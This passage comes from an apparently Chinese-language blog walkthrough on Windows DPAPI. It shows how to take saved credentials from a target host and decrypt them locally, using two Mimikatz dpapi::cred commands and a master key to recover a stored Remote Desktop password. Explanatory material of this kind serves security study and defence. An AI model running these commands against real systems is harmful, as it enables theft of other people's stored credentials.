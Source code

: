 如下图所示，目标主机的凭据管理器中保存了 3 条凭据。为避免将工具直接上传至目标主机，应先将这些凭据文件拷贝到本地，然后使用 Mimikatz 对凭据文件中的 Data BLOB 进行解析，以提取加密数据及其对应的 `guidMasterKey`。

```powershell
dpapi::cred /in:".\Credentials\088E944D53AA5325DEBB316DAD22B476"
```

![image-20250929133524010](/assets/posts/2025-09-30-a-journey-into-dpapi-and-chrome-theft/image-20250929133524010.png)

从返回的结果中可以看到，该凭据受到 GUID 为 {d50af38c-3c43-4c36-9a32-3dc81a133f83} 的 MasterKey 保护，正是我们前文已解密成功的那个。

接下来可以使用该 MasterKey 对存放在 `088E944D53AA5325DEBB316DAD22B476` 文件中的凭据（从解密结果中可以看出它是一个远程桌面连接保存的密码）进行解密。

```powershell
dpapi::cred /in:".\Credentials\088E944D53AA5325DEBB316DAD22B476" /masterkey:"f7207dc067794eca1d528ce941e63fa37670566c9770c56692a04462df41ce462266eb784037d396238f5c54fc0adf586d568bd1acc827beda452220ad83883b"
```
